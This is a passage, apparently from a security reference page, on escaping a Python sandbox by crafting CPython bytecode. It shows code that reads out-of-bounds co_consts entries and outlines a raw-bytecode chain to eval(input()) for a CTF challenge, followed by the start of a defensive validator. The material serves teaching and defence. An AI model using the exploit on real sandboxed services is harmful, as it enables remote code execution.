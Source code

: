 ```python
        ("RESUME", 0),          # 3.11+
        ("LOAD_CONST", i),
        ("RETURN_VALUE", 0),
    ])
    c = base.replace(co_code=code, co_consts=(), co_names=())
    try:
        return eval(c)
    except Exception:
        return None

for idx in range(0, 300):
    obj = probe_const(idx)
    if obj is not None:
        print(idx, type(obj), repr(obj)[:80])
```

Notes
- To probe names instead, swap `LOAD_CONST` for `LOAD_NAME`/`LOAD_GLOBAL`/`LOAD_ATTR` and adjust your stack usage accordingly.
- Use `EXTENDED_ARG` or multiple bytes of `arg` to reach indexes >255 if needed. When building with `dis` as above, you only control the low byte; for larger indexes, construct the raw bytes yourself or split the attack across multiple loads.

### Minimal bytecode-only RCE pattern (co_consts OOB → builtins → eval/input)

Once you have identified a `co_consts` index that resolves to the builtins module, you can reconstruct `eval(input())` without any `co_names` by manipulating the stack:

```python
# Build co_code that:
# 1) LOAD_CONST <builtins_idx> → push builtins module
# 2) Use stack shuffles and BUILD_TUPLE/UNPACK_EX to peel strings like 'input'/'eval'
#    out of objects living nearby in memory (e.g., from method tables),
# 3) BINARY_SUBSCR to do builtins["input"] / builtins["eval"], CALL each, and RETURN_VALUE
# This pattern is the same idea as the high-level exploit above, but expressed in raw bytecode.
```

This approach is useful in challenges that give you direct control over `co_code` while forcing `co_consts=()` and `co_names=()` (e.g., BCTF 2024 “awpcode”). It avoids source-level tricks and keeps payload size small by leveraging bytecode stack ops and tuple builders.

### Defensive checks and mitigations for sandboxes

If you are writing a Python “sandbox” that compiles/evaluates untrusted code or manipulates code objects, do not rely on CPython to bounds-check tuple indexes used by bytecode. Instead, validate code objects yourself before executing them.

Practical validator (rejects OOB access to co_consts/co_names)

```python
import dis

def max_name_index(code):
    max_idx = -1
    for ins in dis.get_instructions(code):
        if ins.opname in {"LOAD_NAME","STORE_NAME","DELETE_NAME","IMPORT_NAME",
                          "IMPORT_FROM","STORE_ATTR","LOAD_ATTR","LOAD_GLOBAL","DELETE_GLOBAL"}:
            namei = ins.arg or 0
            # 3.11+: LOAD_ATTR/LOAD_GLOBAL encode flags in the low bit
            if ins.opname in {"LOAD_ATTR","LOAD_GLOBAL"}:
                namei >>= 1
            max_idx = max(max_idx, namei)
    return max_idx

def max_const_index(code):
```